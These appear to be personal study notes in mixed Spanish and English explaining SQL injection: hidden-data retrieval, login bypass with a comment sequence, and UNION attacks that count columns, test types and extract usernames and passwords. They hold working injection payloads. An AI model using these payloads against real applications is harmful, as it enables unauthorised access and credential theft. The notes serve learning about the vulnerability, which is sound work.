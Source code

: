 
# SQL Inyeccion

> SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database

## SQL injection examples

### Retrieving hidden data

Por ejemplo cuando se usa ' or 1=1-- 

> SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1

En esta consulta muestras todos los datos ya que comentas lo que sigue despues de --

> The modified query will return all items where either the category is Gifts, or 1 is equal to 1. Since 1=1 is always true, the query will return all items.

### Subverting application logic


If the query returns the details of a user, then the login is successful. Otherwise, it is rejected.

Here, an attacker can log in as any user without a password simply by using the SQL comment sequence -- to remove the password check from the WHERE clause of the query. For example, submitting the username administrator'-- and a blank password results in the following query:


> SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'

Inyectando comentaria la otra parte

> SELECT * FROM users WHERE username = 'administrator'--' AND password = ''

Entonces si logramos comentar el and con '--

### Retrieving data from other database tables ( SQL injection UNION attacks )


When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack

***En resumen tienes que lograr esto***

> SELECT a, b FROM table1 UNION SELECT c, d FROM table2

Desde la peticion incial

> SELECT name, description FROM products WHERE category = 'Gifts'

***Restricciones***
Para que UNION funcione tiene que pasar el mismo numero de columnas en el union y tambien deben de manejar el mismo tipo de datos

#### Paso 1 

Ver cuantas columnas tienen esa tabla  se puede hacer por dos metodos 

Metodo 1

>' ORDER BY 1--

>' ORDER BY 2--

>' ORDER BY 3--

Hasta n cuando de error entonces ya no es valido osea es ir probando.

Metodo 2 

UNION SELECT NULL,NULL,NULL-- ir probando de igual que order by para ver cuantas columnas esta trabajando esa query

#### Paso 2 

Verificar el tipo de datos que maneja cada columna debe de ser del mismo tipo para que no falle ( si se usa burp url encodear antes de mandar)

>'UNION SELECT NULL,NULL,NULL--
>' UNION SELECT 'abcdef',NULL,NULL--

#### Paso 3 

Sacar datos(falta investigar los datos de la base como nombre de tabla etc) 

> ' UNION SELECT username, password FROM users--








